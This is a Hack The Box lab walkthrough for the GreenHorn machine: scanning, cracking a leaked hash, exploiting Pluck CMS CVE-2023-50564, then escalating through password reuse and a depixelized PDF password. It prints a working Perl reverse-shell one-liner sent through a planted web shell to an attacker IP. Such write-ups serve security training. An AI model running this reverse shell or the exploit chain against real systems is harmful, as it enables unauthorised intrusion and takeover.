# GreenHorn HTB Walkthrough

---

## Enumeration

```bash
nmap -p- -Pn 10.129.231.80 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.80 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.80 -v --script vuln -oN nmap_vuln.txt
```



On port **80** we see that it is a **Pluck CMS 4.7.18** page.



Clicking on **admin**, we also see a login form that requires a password.



On port **3000** there is a **Gitea instance**.



---

## Gitea Enumeration

Checked the repositories and found interesting source files.





We cracked the `pass.php` hash to retrieve a password:

```bash
john --wordlist=rockyou.txt hash.txt --format=Raw-SHA512
```



Logged in with the found credentials — success.



---

## Exploiting Pluck CMS (CVE-2023-50564)

Found reference to the vulnerability and exploit:

🔗 [https://github.com/xpltive/CVE-2023-50564](https://github.com/xpltive/CVE-2023-50564)



Executed exploit and gained a shell.




---

## Reverse Shell via Perl

Confirmed that **Perl** is installed.



Triggered remote Perl reverse shell using:

```
http://greenhorn.htb/data/modules/malicious/malicious.php?cmd=perl -e 'use Socket;$i="10.10.15.30";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```



---

## Privilege Escalation

Switched to **junior** using password reuse.



Next to the user flag we found a **PDF file**:



The PDF contained hidden content that appeared obfuscated.



Extracted embedded images using:

```bash
pdfimages 'Using OpenVAS.pdf' greenhorn
```



Used depixelization technique to reveal the hidden password.

🔗 [https://github.com/spipm/Depixelization_poc](https://github.com/spipm/Depixelization_poc)

```bash
python3 depix.py -p ../greenhorn-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o output.png
```




It worked — we are **root**!  
Root flag is at `/root/root.txt`.

---
